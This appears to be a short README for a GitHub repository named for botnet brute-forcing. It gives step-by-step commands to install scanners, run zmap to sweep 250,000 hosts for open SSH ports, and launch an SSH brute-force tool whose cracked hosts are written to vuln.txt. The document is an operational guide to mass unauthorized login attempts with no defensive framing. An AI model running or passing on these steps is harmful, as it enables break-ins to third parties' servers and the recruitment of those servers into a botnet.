 

  (CentOS 6.9)

 
- git clone https://github.com/YourAnonXelj/B0tN3tBrut3.git



  1. sh ScannerInstall.sh          if it asks for [Yes] press enter
                                   if it asks for [autodetect] press enter


  
  2. sh CentOS_zmap_auto_install.sh

 


 3.  chmod 777 * 

    4. zmap -p22 -o mfu.txt -N 250000     //-// not mfu2.txt or mfulol.txt dont change

         5.   ./sshbrute 2500 

         Result = vuln.txt

<img src="https://raw.githubusercontent.com/YourAnonXelj/B0tN3tBrut3/master/lul2.png">

